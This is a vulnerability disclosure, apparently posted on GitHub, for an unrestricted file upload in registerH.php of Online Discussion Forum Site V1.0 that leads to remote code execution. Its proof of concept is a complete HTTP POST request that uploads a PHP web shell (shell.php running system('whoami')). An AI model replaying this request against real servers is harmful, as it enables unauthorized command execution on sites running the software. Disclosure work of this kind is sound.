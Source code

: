 # Online Discussion Forum Site - Arbitrary file vulnerability uploading leads to command execution
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/14233/online-discussion-forum-site.html
# Software Link
+ https://www.sourcecodester.com/download-code?nid=14233&title=Online+Discussion+Forum+Site
# Overview
+ xuanluansec has discovered a vulnerability classified as critical in Online Discussion Forum Site. The function upload is affected. This operation will result in unrestricted uploads. Remote attacks can cause RCE.
# Vulnerability Details
+ Online Discussion Forum Site V1.0
+ Vulnerable File: registerH.php
+ Parameter Names: filename
+ Attack Type: Remote
# Description
+ A vulnerability, which was classified as critical, has been found in Online Discussion Forum Site. This issue affects the function upload. The manipulation with an unknown input leads to a unrestricted upload vulnerability.


# Proof of Concept (PoC) : 

![1](https://github.com/xuanluansec/vul/blob/main/vul/img/14.png)

```
POST /registerH.php HTTP/1.1
Host: www.online-discussion-forum-site.com:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------34962993677915401761480767727
Content-Length: 1238
Origin: http://www.online-discussion-forum-site.com:8090
Connection: close
Referer: http://www.online-discussion-forum-site.com:8090/register.php
Cookie: PHPSESSID=evqn78269t7g6bitdanf1717l5
Upgrade-Insecure-Requests: 1

-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="u_name"

admin1
-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="f_name"

admin1
-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="pwd"


-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="e_mail"


-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="gender"

1
-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="dob"


-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="ima"; filename="shell.php"
Content-Type: text/plain

<?php system("whoami");
-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="add"


-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="sta"


-----------------------------34962993677915401761480767727
Content-Disposition: form-data; name="cou"


-----------------------------34962993677915401761480767727--
```

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/15.png)

# Location of vulnerabilities in source code

![3](https://github.com/xuanluansec/vul/blob/main/vul/img/16.png)